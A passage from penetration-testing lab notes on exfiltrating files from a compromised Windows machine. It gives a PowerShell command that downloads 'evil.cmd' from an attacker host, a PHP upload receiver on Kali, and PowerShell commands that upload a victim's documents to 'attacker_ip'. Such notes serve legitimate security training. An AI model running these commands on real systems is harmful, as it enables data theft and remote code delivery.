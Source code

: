 5. Paste into compromised comp's terminal.  
  
  
If copy/ paste doesn't work & you need to download the **.cmd** file from w/in the compromised machine's cmd prompt:  
```powershell
C:\Users\Offsec> powershell -command (New-Object System.Net.WebClient).DownloadFile('http://attacker_ip/evil.cmd', 'evil.cmd')
```



### Exfill via Scripting:

Assuming outbound HTTP traffic is allowed, we can use the _System.Net.WebClient_ PowerShell class to upload data to our Kali machine through an HTTP POST request.  
  
  
Setup:  
  
1. PHP script **upload.php** saved in Kali's **var/www/html**:  
```php
<?php  
$uploaddir = '/var/www/uploads/';  
  
$uploadfile = $uploaddir . $_FILES['file']['name'];  
  
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)  
?>
```
	Processes an incoming file upload request and saves the transferred data to the **/var/www/uploads/** directory.  

2. Create **uploads** folder & modify its perms so _www-data_ is owner & can read/ write:  
```bash
kali@kali:/var/www$ sudo mkdir /var/www/uploads  
  
kali@kali:/var/www$ ps -ef | grep apache  
root      1946     1  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
www-data  1947  1946  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
  
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads  
  
kali@kali:/var/www$ ls -la  
total 16  
drwxr-xr-x  4 root     root     4096 Feb  2 00:33 .  
drwxr-xr-x 13 root     root     4096 Sep 20 14:57 ..  
drwxr-xr-x  2 root     root     4096 Feb  2 00:33 html  
drwxr-xr-x  2 www-data www-data 4096 Feb  2 00:33 uploads
```
	*Allows anyone interacting w/ **uploads.php** to send anything to our machine*
  
3. Move to compromised machine's cmd prompt to upload desired doc:
```powershell
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).UploadFile('http://attacker_ip/upload.php', 'full_path/:important.docx')


OR

C:\Users\Offsec> powershell.exe Invoke-RestMethod -Uri http://attakcer_ip/upload.php -Method Post -InFile $uploadpathfile
```



